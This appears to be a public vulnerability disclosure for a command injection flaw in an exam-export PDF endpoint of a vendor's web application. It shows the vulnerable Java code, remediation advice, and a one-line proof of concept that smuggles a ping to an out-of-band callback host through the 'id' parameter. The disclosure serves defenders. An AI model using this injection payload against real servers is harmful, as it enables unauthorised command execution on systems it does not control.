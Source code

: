 ![image-20250225202220657](./assets/image-20250225202220657.png)

# Vulnerability Report
## Vendor Homepage
https://hzmanyun.com

## Title:
Arbitrary Command Execution in Exam Export PDF Functionality

### Summary:
The code provided contains a critical vulnerability that allows for arbitrary command execution. By manipulating the 'id' parameter in the '/plan/examExportPDF' endpoint, an attacker can inject and execute arbitrary commands on the underlying operating system.

### Affected Endpoint:
/plan/examExportPDF

### Vulnerability Type:
Arbitrary Command Execution (RCE)

### Vulnerable Code:
```java
@RequestMapping({"/plan/examExportPDF"})
public void examExportPDF(HttpServletResponse response, @RequestParam("id") String id) {
    try {
       Runtime run = Runtime.getRuntime();
       String rootPath = ContextLoader.getCurrentWebApplicationContext().getServletContext().getRealPath("/");
       String fileName = System.currentTimeMillis() + ".pdf";
       String filePath = rootPath + "/pdffile/" + fileName;
       File dir = new File(rootPath + "/pdffile/");
       if (!dir.exists()) {
          dir.mkdir();
       }

       Process process = run.exec("/opt/source/wkhtmltox/bin/wkhtmltopdf --page-size A3 "
               + CommonConstants.contextPath + "/plan/exam/info?id="
               + id
               + " "
               + filePath);
       process.waitFor();
       response.setHeader("content-disposition", "attachment;filename=" + URLEncoder.encode(fileName, "UTF-8"));
       InputStream in = new FileInputStream(new File(filePath));
       int len = false;
       byte[] buf = new byte[1024];
       OutputStream out = response.getOutputStream();

       int len;
       while((len = in.read(buf)) > 0) {
          out.write(buf, 0, len);
       }

       in.close();
    } catch (Exception var13) {
       logger.error("---------------------" + var13);
    }
}
```

### Proof of Concept (PoC):
```
http://uri/plan/examExportPDF?id=1;ping 9e9e4078.log.nat.cloudns.ph.;
```

![image-20250225210555561](./assets/image-20250225210555561.png)

### Impact:

An attacker can exploit this vulnerability to execute arbitrary commands on the server hosting the application. This could lead to data theft, unauthorized access, and potential compromise of the entire system.

### Recommendation:
1. Validate and sanitize user input to prevent command injection attacks.
2. Avoid using user input directly in command execution.
3. Implement proper input validation and output encoding to mitigate such vulnerabilities.

### Conclusion:
The code provided is vulnerable to arbitrary command execution due to improper handling of user input. It is crucial to address this issue promptly to prevent potential exploitation by malicious actors.

### References:
N/A

